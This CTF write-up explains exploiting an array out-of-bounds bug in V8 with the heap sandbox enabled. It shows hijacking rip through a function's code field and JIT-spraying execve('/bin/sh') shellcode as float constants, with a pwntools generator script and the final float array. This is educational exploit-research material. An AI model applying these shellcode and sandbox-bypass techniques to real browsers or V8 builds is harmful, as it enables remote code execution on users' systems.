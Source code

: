 ```yaml
---
layout: post
title:  "Dice CTF Memory Hole: Breaking V8 Heap Sandbox"
date:   2022-02-06 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Introduction

In this challenge, we need to exploit V8 JavaScript engine with heap sandbox enabled. The bug is very simple: an array OOB. We bypass the sandbox by rewriting `code` field of function object, so that we can control the low 32 bits of `rip` register. We write the shellcode as double floating point immediate numbers in function and compile this function using JIT, and set `rip` to address of the shellcode to execute `execve`.

## 0x01 Sandbox Overview

The detail of the sandbox is [here](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit#), but I will not detail it here. One important protection is that it converts all external pointers to indexes of a lookup table, such as pointer to web assembly RWX page and pointer of `ArrayBuffer` backing store. Thus, we cannot use normal approach to achieve arbitrary read and write.

## 0x02 Approach

### Hijacking Program Counter

If we `%DebugPrint` a function object, we can see there is a `code` field pointing to an object at a `r-x` page. If we type `job` command to that `code` field, we can see many assembly instructions. These are exactly the instructions that will be executed if the function is called.

```
pwndbg> job 0x7fb0804ad55
0x7fb0804ad55: [Function]
 - map: 0x07fb082022c1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 ...
 - code: 0x07fb00004f01 <Code BUILTIN CompileLazy>  <---- code field
 ...
pwndbg> job 0x07fb00004f01
...
Instructions (size = 1112)
0x7fb07e8d6c0     0  55                   push rbp
0x7fb07e8d6c1     1  4889e5               REX.W movq rbp,rsp
...
```

We can verify this by setting a break point at `0x7fb07e8d6c0` and call the function in JavaScript. We can see the breakpoint is triggered in debugger.

Therefore, we can try to modify this field to see if we can hijack `rip` when this JavaScript function is called. We set the `code` field to `0x414141` using `gdb` `set` command, and call this function in JavaScript. We can see a crash at following location:

```assembly
 ► 0x7fb07e8206b    test   dword ptr [rcx + 0x1b], 0x20000000
   0x7fb07e82072    jne    0x7fb07e82081 <0x7fb07e82081>

   0x7fb07e82078    add    rcx, 0x3f
   0x7fb07e8207c    jmp    0x7fb07e8208c <0x7fb07e8208c>
    ↓
   0x7fb07e8208c    jmp    rcx
```

The value of `rcx` is `0x7fb00414141`, which is base address plus the value we have provided.

Looking at the assembly code where the crash occurs, we can conclude that if `dword ptr [rcx + 0x1b] & 0x20000000` is zero, `rip` will be set to `rcx + 0x3f`, which is an easily satisfiable condition.

### Writing Shellcode with Immediate Numbers

Unlike web assembly, whose JIT code is stored in region outside the V8 heap, the normal JavaScript function store the JIT code inside the V8 heap (e.i. the 32-bit region starting with the base address, read [this](https://v8.dev/blog/pointer-compression) for more details). We can see this also by looking at `code` field of a JITed JavaScript function object.

```javascript
const foo = () =>
{
	return [1.1, 2.2, 3.3];
}
%PrepareFunctionForOptimization(foo);
foo();
%OptimizeFunctionOnNextCall(foo);
foo();
%DebugPrint(foo);
readline();
```

```
DebugPrint: 0x29820804ae0d: [Function]
 - map: 0x2982082022c1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 ...
 - code: 0x298200044001 <Code TURBOFAN>
 ...
 
pwndbg> job 0x298200044001
0x298200044001: [Code]
...
Instructions (size = 304)
0x298200044040     0  8b59d0               movl rbx,[rcx-0x30]
...
0x29820004409f    5f  49ba9a9999999999f13f REX.W movq r10,0x3ff199999999999a
0x2982000440a9    69  c4c1f96ec2           vmovq xmm0,r10
0x2982000440ae    6e  c5fb114107           vmovsd [rcx+0x7],xmm0
0x2982000440b3    73  49ba9a99999999990140 REX.W movq r10,0x400199999999999a
0x2982000440bd    7d  c4c1f96ec2           vmovq xmm0,r10
0x2982000440c2    82  c5fb11410f           vmovsd [rcx+0xf],xmm0
0x2982000440c7    87  49ba6666666666660a40 REX.W movq r10,0x400a666666666666
...
```

As we can see in the JIT code, the IEEE representations of `1.1`, `2.2` and `3.3` are compiled to `r-x` page inside the V8 heap region. We can write shellcode using these numbers and connect them with a `jmp` instruction. Since `jmp` instruction consumes 2 bytes, we have 6 bytes for shellcode, which are definitely enough.

Therefore, we can set `rip` to the shellcode using the method mentioned in last subsection. The condition can be easily satisfied by putting a `1.0` at first element of array.

We generate the shellcode with following scripts, and convert the hex numbers into IEEE floating point numbers using this [website](https://www.binaryconvert.com/convert_double.html):

```python
from pwn import *

context(arch='amd64')
jmp = b'\xeb\x0c'
shell = u64(b'/bin/sh\x00')

def make_double(code):
	assert len(code) <= 6
	print(hex(u64(code.ljust(6, b'\x90') + jmp))[2:])

make_double(asm("push %d; pop rax" % (shell >> 0x20)))
make_double(asm("push %d; pop rdx" % (shell % 0x100000000)))
make_double(asm("shl rax, 0x20; xor esi, esi"))
make_double(asm("add rax, rdx; xor edx, edx; push rax"))
code = asm("mov rdi, rsp; push 59; pop rax; syscall")
assert len(code) <= 8
print(hex(u64(code.ljust(8, b'\x90')))[2:])

"""
Output:
ceb580068732f68
ceb5a6e69622f68
cebf63120e0c148
ceb50d231d00148
50f583b6ae78948
"""
```

The final function that can generate the shellcode is shown below:

```javascript
const foo = ()=>
{
	return [1.0,
		1.95538254221075331056310651818E-246,
		1.95606125582421466942709801013E-246,
		1.99957147195425773436923756715E-246,
		1.95337673326740932133292175341E-246,
		2.63486047652296056448306022844E-284];
}
```

Another thing to note is that we must put the immediate numbers as elements of array, instead of using them in other ways like `func(1.1, 2.2)`. The later one will generate JIT code that loads floating point numbers as `HeapNumber`, so that the immediate numbers cannot be compiled into `r-x` page.

Also, JIT compiling `foo` with loop can trigger garbage collection, so that we must compile it before triggering any vulnerability.

### Arbitrary Read and Write within V8 Heap Region using TypedArray

Finally, we need to use the vulnerability to actually implement the idea mentioned above. We found that we can still use `TypedArray` to achieve arbitrary read and write within V8 heap region (e.i. 32-bit region starting with the base address). Therefore, we use array OOB write to rewrite field of `Uint32Array` to achieve this arbitrary read and write. We also use array OOB read to leak addresses of related function objects. The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/memory-hole-1984.js).

## 0x03 Conclusion

The sandbox makes the exploitation harder but I think in reality it does not make any exploitable bug unexploitable.

